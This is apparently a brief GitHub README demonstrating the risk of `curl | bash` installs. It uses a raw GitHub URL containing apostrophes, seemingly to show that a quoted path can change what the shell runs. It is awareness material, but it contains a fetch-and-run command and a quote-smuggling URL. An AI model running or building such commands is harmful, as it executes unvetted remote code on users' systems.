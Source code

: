 # latrina

* go to https://raw.githubusercontent.com/kusky3/latrina/main/test''/harmless.sh
* read the content
* copy the url  
* run `curl -s $URL | bash`   

I wonder how many people do this regularly without caution.
Even pihole teaches you to do it:    
https://github.com/pi-hole/pi-hole/#one-step-automated-install  
The same can be done with release files.
Github encodes the apostrophes in repo names to prevent RCE from the "Code" button but doesn't mind using the same in raw user content.
